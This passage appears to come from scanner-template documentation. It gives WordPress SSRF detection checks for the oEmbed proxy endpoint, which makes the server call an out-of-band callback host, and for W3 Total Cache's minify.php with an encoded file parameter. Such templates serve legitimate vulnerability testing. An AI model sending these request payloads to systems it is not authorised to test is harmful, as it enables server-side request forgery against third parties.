 ### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Wordpress Oembed Proxy SSRF

- severity - medium
- tags - wordpress,ssrf,oast,proxy

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-json/oembed/1.0/proxy?url=http://{{interactsh-url}}/

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Wordpress W3C Total Cache <= 0.9.4 - Server Side Request Forgery (SSRF)

## Description

- The W3 Total Cache WordPress plugin was affected by an Unauthenticated Server Side Request Forgery (SSRF) security vulnerability.

- severity - medium
- tags - wordpress,wp-plugin,cache,ssrf,wp

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/w3-total-cache/pub/minify.php?file=yygpKbDS1y9Ky9TLSy0uLi3Wyy9KB3NLKkqUM4CyxUDpxKzECr30_Pz0nNTEgsxiveT8XAA.css
